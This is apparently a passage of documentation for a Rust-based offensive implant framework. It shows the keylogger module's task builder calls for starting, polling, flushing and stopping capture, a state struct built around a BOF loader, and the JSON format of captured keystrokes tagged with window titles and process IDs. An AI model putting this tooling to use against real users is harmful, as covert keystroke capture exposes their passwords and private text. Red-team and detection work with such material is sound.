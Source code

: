 ### Task Builders

```rust
// Start keylogger
let task = TaskBuilder::keylogger_start();

// Check status
let task = TaskBuilder::keylogger_status();

// Collect data
let task = TaskBuilder::keylogger_flush();

// Stop keylogger
let task = TaskBuilder::keylogger_stop();
```

### State Management

```rust
struct KeyloggerState {
    loaded_bof: Option<Arc<LoadedBof>>,
    bof_loader: Arc<BOFLoader>,
    is_active: bool,
    data_buffer: Arc<Mutex<Vec<String>>>,
}
```

## Data Format

### JSON Structure

The keylogger outputs structured JSON data:

```json
{
  "type": "keylogger_data",
  "entries": [
    {
      "timestamp": "2024-12-29 19:25:30",
      "pid": 1234,
      "window": "Notepad - Untitled",
      "data": "Hello World"
    },
    {
      "timestamp": "2024-12-29 19:25:35",
      "pid": 1234,
      "window": "Notepad - Untitled", 
      "data": "[ENTER]"
    }
  ]
}
```
